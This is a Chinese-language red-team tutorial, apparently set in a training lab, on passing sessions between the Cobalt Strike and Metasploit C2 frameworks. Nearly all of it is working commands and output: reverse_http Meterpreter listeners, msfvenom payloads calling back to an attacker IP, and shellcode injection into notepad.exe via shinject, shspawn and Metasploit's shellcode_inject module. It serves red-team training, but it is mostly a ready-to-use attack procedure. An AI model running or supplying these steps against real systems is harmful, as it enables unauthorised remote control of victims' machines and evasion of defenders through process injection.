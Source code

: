 # Session Passing

Cobalt Strike和其他一些C2框架（如metasploit）互相传递session，这样做的好处有：

利用 Cobalt Strike 所没有的框架内的功能。
如果当前访问丢失，请使用不同的 C2 框架作为备份访问。
模拟类似的 TTP。

# Cobalt Strike->metasploit

1. 首先在metasploit起一个监听，需要使用```windows/meterpreter/reverse_http```payload (只支持x86 Meterpreter)

```
root@kali:~# msfconsole

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST eth0
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started HTTP reverse handler on http://10.10.5.120:8080
```

2. 记住上面的IP：10.10.5.120，端口:8080

3. Cobalt Strike建立一个监听，监听的名字是：metasploit

```
In Cobalt Strike, go to Listeners > Add and set the Payload to Foreign HTTP. Set the Host to 10.10.5.120, the Port to 8080 and click Save.
```

4. 传递session到msf
```
beacon> spawn metasploit
[*] Tasked beacon to spawn (x86) windows/foreign/reverse_http (10.10.5.120:8080)
```

5. msf接收到session
```
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: ofosht99) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 1 opened (10.10.5.120:8080 -> 10.10.17.231:53951)

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x86/windows  DEV\bfarmer @ WKSTN-1  10.10.5.120:8080 -> 10.10.17.231:53951 (10.10.17.231)
```

# 在Cobalt Strike使用```shinject ```命令把msf的payload注入到靶机进程

1. msf生成payload（支持x64）
```
root@kali:~# msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.120 LPORT=8080 -f raw -o /tmp/msf.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201308 bytes
Saved as: /tmp/msf.bin
```

2. 上传到CS的客户端所在机器，如果CS客户端也是在kali，那么这一步不是必须的
```
C:\Payloads>pscp root@kali:/tmp/msf.bin .
msf.bin                   | 196 kB | 196.6 kB/s | ETA: 00:00:00 | 100%
```

3. 注入进程，这里选择记事本（notepad.exe）
```
beacon> execute C:\Windows\System32\notepad.exe
beacon> ps

 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 1492  4268  notepad.exe                  x64   1           DEV\bfarmer

beacon> shinject 1492 x64 C:\Payloads\msf.bin
```

4. msf收到rev shell
```
msf6 exploit(multi/handler) > exploit

[*] Started HTTP reverse handler on http://10.10.5.120:8080
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: rumczhno) Redirecting stageless connection from /N1ZSg3AJ641CWUNbIhhT5QWcTIqjJ_npAOt9u8b01bCZLPFvg0YNTQPPZpC2osS8NoHGOLaUyHHR with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: rumczhno) Attaching orphaned/stageless session...
[*] Meterpreter session 2 opened (10.10.5.120:8080 -> 10.10.17.231:53793)
```


## 也可以使用```shspawn```命令进行注入
```
beacon> shspawn x64 C:\Payloads\msf_http_x64.bin
```


# 从msf的session注入Cobalt Strike的payload到靶机的进程中

1. Cobalt Strike生成payload, select Raw as the Output type and select Use x64 payload
```
Attacks > Packages > Windows Executable (S)
```

2. 传到kali攻击机

3. 使用的msf的```post/windows/manage/shellcode_inject```模块，把Cobalt Strike的payload注入到进程中

```
msf6 > use post/windows/manage/shellcode_inject
msf6 post(windows/manage/shellcode_inject) > set SESSION 1
msf6 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/beacon.bin
msf6 post(windows/manage/shellcode_inject) > run

[*] Running module against WKSTN-1
[*] Spawned Notepad process 4560
[+] Successfully injected payload into process: 4560
[*] Post module execution completed
```